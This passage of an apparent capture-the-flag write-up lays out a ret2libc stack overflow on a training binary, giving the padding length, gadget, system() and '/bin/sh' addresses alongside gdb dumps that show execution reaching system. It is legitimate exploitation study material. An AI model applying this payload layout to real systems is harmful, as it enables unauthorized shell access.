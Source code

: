 The stack shall look as follows:

$$
Padding\ of\ 0xAA's = 80\ bytes \\
ret\ instruction(ret\ to\ .txt) = 0x8048544 \\
system\ address = 0xb7ecffb0 \\
fake\ system\ return\ address = 0xbbbbbbbb \\
Pointer\ to\ /bin/sh = 0xb7fb63bf 
$$

```
        +----------------+
        | ESP            |   Padding
        |                |
        +----------------+
        |0x8048544       |
        |                |  Address of ret instruction in getpath
        +----------------+
        |0xb7ecffb0      |  system function address
        |                |
        +----------------+
        |\xBB\xBB\xBB\xBB|  ROP padding of arbitraty 0x4 bytes (fake system return address) 
        +----------------+
        |0xb7fb63bf      |  Address that points to /bin/sh, which is the parameter that will be passed to system
        |                |
        +----------------+
```
After preparing the stack and before executing the `ret` instruction of getpath, this is how it looks in gdb:
```
(gdb) x/30x $esp
0xbffff7ac:	0x08048544	0xb7ecffb0	0xbbbbbbbb	0xb7fb63bf
```
```
(gdb) info registers
eax            0x804a008	134520840
ecx            0x0	0
edx            0x1	1
ebx            0xb7fd7ff4	-1208123404
esp            0xbffff7b4	0xbffff7b4
ebp            0xaaaaaaaa	0xaaaaaaaa
esi            0x0	0
edi            0x0	0
eip            0xb7ecffb0	0xb7ecffb0 <__libc_system> ; Instruction pointer 
```
At this point, the stack looks like this:

```
    +----------------+
    |0xb7ecffb0      |  EBP
+---+                |
|   +----------------+
|   |\xBB\xBB\xBB\xBB|  4 bytes of padding to compensate the missing EIP
|   |                |
|   +----------------+
|   |0xb7fb63bf      |  Arguments passed to system (Pointer to /bin/sh)
+-->+                |
    +----------------+

```
